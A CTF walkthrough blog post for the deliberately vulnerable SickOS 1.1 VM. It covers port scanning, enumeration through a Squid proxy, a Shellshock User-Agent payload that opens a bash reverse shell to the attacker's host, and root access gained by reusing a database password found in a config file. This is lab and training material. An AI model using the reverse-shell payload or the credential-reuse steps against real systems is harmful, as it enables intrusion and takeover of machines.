 ```yaml
---
layout: blog_item
title:  "SickOS 1.1 - Walkthrough"
date:   2015-01-10 11:00:10
author: Arr0way
description: 'SickOS 1.1 - Walkthrough / Writeup'
categories: [walkthroughs]
tags:
- CTF
---
```



<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Coffee Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee"></i><i class="fa fa-coffee"></i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

This CTF gives a clear analogy how hacking strategies can be performed on a network to compromise it in a safe environment. This vm is very similar to labs I faced in OSCP. The objective being to compromise the network/machine and gain Administrative/root privileges on them.

**Author:** [@D4rk36](https://twitter.com/D4rk36)

**Download:** [VulnHub](https://www.vulnhub.com)


## Host Enumeration

### Port Scanning

{% highlight bash %}

nmap -v -p 1-65535 -sV -O -sT 192.168.30.138

{% endhighlight %}


### Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 22</code></p></pc>
           </td>
           <td>
               <pc><p>SSH</p></pc>
           </td>
           <td>
               <pc><p>OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)</p></pc>
           </td>
        </tr>
        <tr>
           <td>
               <pc><p><code>TCP: 3128</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP-Proxy</p></pc>
           </td>
           <td>
               <pc><p>Squid http proxy 3.1.19</p></pc>
           </td>
        </tr>

      </tbody>

</table>
</div>

## Squid Enumeration

Inspection of Squid using the metasploit module <code>auxiliary/scanner/http/squid_pivot_scanning</code> discovered port 80 was exposed via the proxy.

![Metasploit Squid Pivot Scanning](/img/blog/sickos/metasploit-squid-pivot-scanning.png)


## Nikto scan via Proxy

Nikto was configured to use the discovered Squid proxy:

{% highlight bash %}

[root:~]# nikto -h 192.168.221.138 -useproxy http://192.168.221.138:3128

{% endhighlight %}

Nikto disclosed the location <code>/cgi-bin/status</code>, indicating the target could be vulnerable to **shellshock**.

![Nikto Proxy Scan](/img/blog/sickos/nikto-proxy-scan.png)


## Shellshock Bash Reverse Shell

**Burp Suite** was used to manipulate <code>User-Agent:</code> to include the bash reverse shell.

{% highlight bash %}
() { ignored;};/bin/bash -i >& /dev/tcp/192.168.221.139/443 0>&1
{% endhighlight %}


![Burp Suite Shellshock Reverse Bash Shell](/img/blog/sickos/burp-shellshock-reverse-shell.png)

A reverse shell was established:

{% highlight bash %}

[root:~]# nc.traditional -lp 443 -vvv
listening on [any] 443 ...

192.168.221.138: inverse host lookup failed: Unknown host
connect to [192.168.221.139] from (UNKNOWN) [192.168.221.138] 59815
bash: no job control in this shell
www-data@SickOs:/usr/lib/cgi-bin$

{% endhighlight %}


## Local Enumeration

Local enumeration of the system disclosed the file <code>/var/www/wolfcms/config.php</code> containing:

{% highlight bash %}
// Database settings:
define('DB_DSN', 'mysql:dbname=wolf;host=localhost;port=3306');
define('DB_USER', 'root');
define('DB_PASS', 'john@123');
define('TABLE_PREFIX', '');
{% endhighlight %}

## Local Privilege Escalation

The previously discovered credentials worked for MySQL root, and were reused for the user <code>sickos</code> and again for <code>sudo</code> as the user <code>sickos</code>.

Local Privilege Escalation:

{% highlight bash %}

www-data@SickOs:/$ su - sickos
su - sickos
Password: john@123

sickos@SickOs:~$ ls
ls
sickos@SickOs:~$ cat .bash_history
cat .bash_history
sudo su
exit
sickos@SickOs:~$ sudo -s
sudo -s
[sudo] password for sickos: john@123

root@SickOs:~# cd /root  
cd /root
root@SickOs:/root# ls
ls
a0216ea4d51874464078c618298b1367.txt
root@SickOs:/root# cat a0216ea4d51874464078c618298b1367.txt
cat a0216ea4d51874464078c618298b1367.txt
If you are viewing this!!

ROOT!

You have Succesfully completed SickOS1.1.
Thanks for Trying


root@SickOs:/root#

{% endhighlight %}

### Root Flag

![Sickos 1.1 Root Flag](/img/blog/sickos/root-flag.png)

Thanks for the VM :)
